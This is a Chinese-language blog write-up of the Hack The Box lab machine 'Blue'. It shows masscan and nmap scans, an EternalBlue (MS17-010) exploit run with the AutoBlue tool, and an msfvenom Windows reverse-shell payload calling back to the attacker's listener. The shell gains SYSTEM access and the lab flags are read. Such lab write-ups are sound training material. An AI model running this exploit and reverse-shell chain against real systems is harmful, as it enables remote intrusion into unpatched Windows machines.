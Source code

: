 # HTB靶机 Blue WriteUp


&lt;!--more--&gt;

## Blue 简介

![图片](/resource/HTB靶机-Blue-WriteUp.assets/640-20230220175612205.png)

OS：Windows；			难度：Easy

## WriteUp

连接HTB靶场：`sudo openvpn  xxxx.ovpn`

测试靶机连通性：

```shell
 ┌──(xavier㉿xavier)-[~]
 └─$ ping -c 4 10.10.10.40
 PING 10.10.10.40 (10.10.10.40) 56(84) bytes of data.
 64 bytes from 10.10.10.40: icmp_seq=1 ttl=127 time=238 ms
 64 bytes from 10.10.10.40: icmp_seq=3 ttl=127 time=237 ms
 64 bytes from 10.10.10.40: icmp_seq=4 ttl=127 time=240 ms
 
 --- 10.10.10.40 ping statistics ---
 4 packets transmitted, 3 received, 25% packet loss, time 3035ms
 rtt min/avg/max/mdev = 237.404/238.524/240.313/1.277 ms
```

有点延迟和丢包，扫描探测结果可能不准确，需要复核。

## 0.SCAN

masscan 扫描全端口&#43; nmap 扫描详细端口信息

```shell
 ┌──(xavier㉿xavier)-[~]
 └─$ sudo masscan -e tun0 -p- --max-rate 500 10.10.10.40
 Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-21 05:48:42 GMT
 Initiating SYN Stealth Scan
 Scanning 1 hosts [65535 ports/host]
 Discovered open port 49156/tcp on 10.10.10.40
 Discovered open port 49152/tcp on 10.10.10.40
 Discovered open port 49154/tcp on 10.10.10.40
 Discovered open port 49155/tcp on 10.10.10.40
 Discovered open port 445/tcp on 10.10.10.40
 Discovered open port 49153/tcp on 10.10.10.40
 Discovered open port 49157/tcp on 10.10.10.40
 Discovered open port 135/tcp on 10.10.10.40
 Discovered open port 139/tcp on 10.10.10.40
 
 ┌──(xavier㉿xavier)-[~]
 └─$ sudo nmap -p135,139,445,49152-49157 -sSV 10.10.10.40 --script=default,vuln 
 Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 14:04 HKT
 Nmap scan report for 10.10.10.40
 Host is up (0.24s latency).
 
 PORT     STATE SERVICE     VERSION
 135/tcp   open msrpc       Microsoft Windows RPC
 139/tcp   open netbios-ssn Microsoft Windows netbios-ssn
 445/tcp   open microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
 49152/tcp open msrpc       Microsoft Windows RPC
 49153/tcp open msrpc       Microsoft Windows RPC
 49154/tcp open msrpc       Microsoft Windows RPC
 49155/tcp open msrpc       Microsoft Windows RPC
 49156/tcp open unknown
 49157/tcp open msrpc       Microsoft Windows RPC
 Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
 
 Host script results:
 | smb2-security-mode:
 |   2.1:
 |_   Message signing enabled but not required
 | smb-vuln-ms17-010:
 |   VULNERABLE:
 |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
 |     State: VULNERABLE
 |     IDs: CVE:CVE-2017-0143
 |     Risk factor: HIGH
 |       A critical remote code execution vulnerability exists in Microsoft SMBv1
 |       servers (ms17-010).
 |
 |     Disclosure date: 2017-03-14
 |     References:
 |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
 |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
 |_     https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
 |_clock-skew: mean: 4m02s, deviation: 6s, median: 3m58s
 |_smb-vuln-ms10-054: false
 | smb-security-mode:
 |   account_used: guest
 |   authentication_level: user
 |   challenge_response: supported
 |_ message_signing: disabled (dangerous, but default)
 | smb-os-discovery:
 |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
 |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
 |   Computer name: haris-PC
 |   NetBIOS computer name: HARIS-PC\x00
 |   Workgroup: WORKGROUP\x00
 |_ System time: 2022-03-21T06:09:59&#43;00:00
 | smb2-time:
 |   date: 2022-03-21T06:09:58
 |_ start_date: 2022-03-21T05:42:34
 |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 117.51 seconds
```

发现 存在 smb  ms17-010（CVE-2017-0143），操作系统为：Windows 7 Professional 7601 Service Pack 1 ，计算机名: haris-PC

非MSF

## 1. MS17-010 利用

不用msf去攻击

nmap 只有检测脚本，没有利用脚本，通过网络expdb、Github搜索利用工具。

最后找了这个：https://github.com/3ndG4me/AutoBlue-MS17-010

下载代码，并安装依赖，这里我使用了Pipenv创建了单独的环境。

```shell
 └─$ git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/
 └─$ pip install -r requirements.txt
```

制作利用代码，可以利用shellcode文件夹下的 shell_prep.sh 辅助生成。

这里直接使用msfvenom进行生成，并加入shellcode混合

```shell
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/
 └─$ nasm -f bin eternalblue_kshellcode_x64.asm -o evilKernel.bin
 
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/shellcode]
 └─$ msfvenom -p windows/x64/shell_reverse_tcp EXITFUNC=thread LHOST=10.10.14.2 LPORT=4444 -f raw -o evilReverse.bin
 [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
 [-] No arch selected, selecting arch: x64 from the payload
 No encoder specified, outputting raw payload
 Payload size: 460 bytes
 Saved as: evilReverse.bin
 
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/shellcode]
 └─$ cat evilKernel.bin evilReverse.bin &gt; evilPayload.bin
```

依据Github 的Readme 命令帮助，输入目标ip，payload 和Groom连接数，执行利用脚本：

```shell
python eternalblue_exploit7.py &lt;TARGET-IP&gt; &lt;PATH/TO/SHELLCODE/sc_all.bin&gt; &lt;Number of Groom Connections (optional)&gt;
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010]
 └─$ python3 eternalblue_exploit7.py 10.10.10.40 shellcode/evilPayload.bin 2
 shellcode size: 1232
 numGroomConn: 2
 Target OS: Windows 7 Professional 7601 Service Pack 1
 SMB1 session setup allocate nonpaged pool success
 SMB1 session setup allocate nonpaged pool success
 good response status: INVALID_PARAMETER
 done
 
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010]
 └─$ python3 eternalblue_exploit7.py 10.10.10.40 shellcode/evilPayload.bin 24
 shellcode size: 1232
 numGroomConn: 24
 Target OS: Windows 7 Professional 7601 Service Pack 1
 SMB1 session setup allocate nonpaged pool success
 SMB1 session setup allocate nonpaged pool success
 good response status: INVALID_PARAMETER
 done
 
```

这里 `&lt;Number of Groom Connections (optional)&gt;`虽然是可选项，但经过多次不成功后，我按照参考文献2进行设置，同样在多次尝试后，成功获得shell，且为System权限。

```shell
 ┌──(xavier㉿xavier)-[~]
 └─$ nc -nlvp 4444
 listening on [any] 4444 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.40] 49159
 Microsoft Windows [Version 6.1.7601]
 Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
 
 C:\Windows\system32&gt;whoami
 whoami
 nt authority\system
 C:\Windows\system32&gt;cd C:\Users\haris\Desktop
 cd C:\Users\haris\Desktop
 
 C:\Users\haris\Desktop&gt;type user.txt
 type user.txt
 6349f910cd5b7ddae73521237f8e90c3
 
 C:\Users\haris\Desktop&gt;type C:\Users\Administrator\Desktop\root.txt
 type C:\Users\Administrator\Desktop\root.txt
 3515d002af86dbfff3ce6f9bbffe7ede
```

利用他人的工具，最后做出来了，但让我意识到对漏洞的一知半解，在攻击过程中会消耗大量的时间，甚至走上弯路。平时需要加强对漏洞的研究，了解漏洞的相关影响因素。



MSF: 略

## 他山之石

- Hack The Box - Blue (Without Metasploit)  

- - 用了superscan
  - 用了其他exp，python2脚本

- Hack The Box - Blue Walkthrough without Metasploit 

- - 使用了同一种方法，numGroomConn 需要尝试多次

- WriteUp: HackTheBox Blue

- - 使用了kali自带的searchsploit 去找利用脚本，并进行修改利用


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/hackthebox-blue/  

